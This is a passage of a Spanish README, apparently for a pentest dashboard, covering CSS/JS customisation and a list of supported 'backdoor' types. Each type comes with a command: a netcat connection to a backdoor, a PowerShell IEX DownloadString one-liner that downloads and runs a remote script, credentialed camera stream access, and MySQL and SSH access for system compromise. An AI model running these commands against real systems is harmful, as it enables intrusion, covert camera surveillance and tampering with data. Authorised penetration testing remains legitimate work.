 ## 🎨 Personalización

### **Colores y Temas**
Editar `static/css/style.css` para personalizar:
- Colores principales
- Esquemas de colores
- Tipografías
- Espaciado

### **Funcionalidad**
Editar `static/js/app.js` para agregar:
- Nuevas secciones
- Funcionalidades adicionales
- Integraciones con APIs externas

## 🔍 Tipos de Backdoors Soportados

### **🔌 Netcat**
- **Comando**: `nc IP PUERTO`
- **Uso**: Conexión directa al backdoor
- **Acciones**: Ejecutar comandos, transferir archivos

### **💻 PowerShell**
- **Comando**: `powershell -c "IEX (New-Object Net.WebClient).DownloadString('URL')"`
- **Uso**: Ejecutar payloads PowerShell
- **Acciones**: Descargar y ejecutar scripts

### **📹 Acceso a Cámaras**
- **Comando**: `ffplay rtsp://usuario:password@IP:puerto/stream`
- **Uso**: Ver stream de la cámara
- **Acciones**: Monitoreo visual, grabación

### **🗄️ Conexiones de Base de Datos**
- **Comando**: `mysql -h IP -P PUERTO -u usuario -ppassword`
- **Uso**: Conectar a la base de datos
- **Acciones**: Consultar datos, modificar registros

### **🖥️ Compromiso de Sistema**
- **Comando**: `ssh usuario@IP`
- **Uso**: Acceso SSH al sistema
- **Acciones**: Ejecutar comandos, transferir archivos

## 🧊 Pentest Frío

### **Identificación Visual**
- **Badge**: 🧊 FRÍO en listados
- **Título**: "Pentest Frío" en detalles
- **Advertencias**: Avisos de que los datos son solo de referencia
